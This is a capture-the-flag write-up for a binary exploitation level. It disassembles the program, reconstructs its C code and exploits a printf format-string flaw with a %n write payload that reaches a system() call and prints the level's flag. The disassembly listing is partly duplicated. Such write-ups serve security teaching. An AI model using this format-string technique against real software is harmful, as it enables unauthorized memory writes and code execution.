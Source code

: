 <span style="display: flex; justify-content: space-between;"><span style="text-align: left; display: block;">
	[← level3](../level3/solution.md)
</span>
<span style="text-align: center; display: block;">
	[Home](../README.md)
</span>
<span style="text-align: right; display: block;">
	[level5 →](../level5/solution.md)
</span>
</span>

level4
======

Dissassembly
------------

To dissassemble the executable we can use objdump.
```sh
EXECUTABLE=./level4

objdump -M intel -d "$EXECUTABLE"
```

The main function looks like this:
```nasm
080484a7 <main>:
 80484a7:	55						push   ebp
 80484a8:	89 e5					mov    ebp,esp
 80484aa:	83 e4 f0				and    esp,0xfffffff0
 80484ad:	e8 a5 ff ff ff			call   8048457 <n>
 80484b2:	c9						leave
 80484b3:	c3						ret080484a7 <main>:
 80484a7:	55						push   ebp
 80484a8:	89 e5					mov    ebp,esp
 80484aa:	83 e4 f0				and    esp,0xfffffff0
 80484ad:	e8 a5 ff ff ff			call   8048457 <n>
 80484b2:	c9						leave
 80484b3:	c3						ret
```

It calls another function n:

```nasm
08048457 <n>:
 8048457:	55						push   ebp
 8048458:	89 e5					mov    ebp,esp
 804845a:	81 ec 18 02 00 00		sub    esp,0x218
 8048460:	a1 04 98 04 08			mov    eax,ds:0x8049804
 8048465:	89 44 24 08				mov    DWORD PTR [esp+0x8],eax
 8048469:	c7 44 24 04 00 02 00	mov    DWORD PTR [esp+0x4],0x200
 8048470:	00
 8048471:	8d 85 f8 fd ff ff		lea    eax,[ebp-0x208]
 8048477:	89 04 24				mov    DWORD PTR [esp],eax
 804847a:	e8 d1 fe ff ff			call   8048350 <fgets@plt>
 804847f:	8d 85 f8 fd ff ff		lea    eax,[ebp-0x208]
 8048485:	89 04 24				mov    DWORD PTR [esp],eax
 8048488:	e8 b7 ff ff ff			call   8048444 <p>
 804848d:	a1 10 98 04 08			mov    eax,ds:0x8049810
 8048492:	3d 44 55 02 01			cmp    eax,0x1025544
 8048497:	75 0c					jne    80484a5 <n+0x4e>
 8048499:	c7 04 24 90 85 04 08	mov    DWORD PTR [esp],0x8048590
 80484a0:	e8 bb fe ff ff			call   8048360 <system@plt>
 80484a5:	c9						leave
 80484a6:	c3						ret
```

Which in turn calls a function p, which uses printf to print our input:

```
nasm
08048444 <p>:
 8048444:	55						push   ebp
 8048445:	89 e5					mov    ebp,esp
 8048447:	83 ec 18				sub    esp,0x18
 804844a:	8b 45 08				mov    eax,DWORD PTR [ebp+0x8]
 804844d:	89 04 24				mov    DWORD PTR [esp],eax
 8048450:	e8 eb fe ff ff			call   8048340 <printf@plt>
 8048455:	c9						leave
 8048456:	c3						ret
```

We can see that there is a system call, but to reach it, a specific value needs to be set to 0x1025544.
```nasm
...
 804848d:   a1 10 98 04 08          mov    eax,ds:0x8049810
 8048492:   3d 44 55 02 01          cmp    eax,0x1025544
 8048497:   75 0c                   jne    80484a5 <n+0x4e>
   ...
 80484a0:   e8 bb fe ff ff          call   8048360 <system@plt>
 80484a5:   c9                      leave
 80484a6:   c3                      ret
```

The stack looks like this before calling p:
| Address | Type           | Size |
|---------|----------------|------|
| -0x218  | char \*fmt     |   4  |
| -0x210  | FILE \*stdin   |   4  |
| -0x20c  | size_t len     |   4  |
| -0x208  | char data[200] | 512  |
|  0x000  | \*EBP          |   4  |
|  0x004  | \*EIP          |   4  |

After calling p, the stack looks like this:
| Address | Type           | Size |
|---------|----------------|------|
| -0x018  | char \*fmt     |   4  |
| -0x004  | padding        |  20  |
|  0x000  | \*EBP          |   4  |
|  0x004  | \*EIP          |   4  |
|  0x008  | char \*fmt     |   4  |

The p function fetches the format string pointer from the previous stack-frame and passes it to the printf function.

In c, the procedure would look like this:
```c
size_t	len = 0x200;
FILE	*stdin = *(FILE**)0x8049804;

fgets(fmt, len, stdin);

printf(fmt);

if (*(int*)0x8049810 == 0x1025544)
	system(...);
```

Exploitation
------------

Using the previous technique, we can search for our buffer by printing the stack's data.
```sh
./level4 <<< 'AAAA char *fmt = %p; char *p_frame[32] = %p %p %p %p %p %p %p; size = %p; FILE* stdin = %p; char *system_arg = %p; char *buff[0] = %p'
```
```c
AAAA char *fmt = 0xb7ff26b0; char *p_frame[32] = 0xbffff7a4 0xb7fd0ff4 (nil) (nil) 0xbffff768 0x804848d 0xbffff560; size = 0x200; FILE* stdin = 0xb7fd1ac0; char *system_arg = 0xb7ff37d0; char *buff[0] = 0x41414141
```
We are able to reach the start of our buffer with 12 32-bit pointer conversions, which is equivalent to an offset of 0x30.

Knowing the offset, we can use printf's shorthand dollar notation to directly access the argument at the 12th position:
```sh
./level4 <<< 'AAAA %12$p'
```
```c
AAAA 0x41414141
```

If we place our address at the start of our buffer and use the %n modifier, we can overwrite it using an arbitrary value. To generate a string with the right length, we can use the field-width:
```sh
./level4 <<< $'\x10\x98\x04\x08%16930112x%12$n'
```
```c
...
b7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
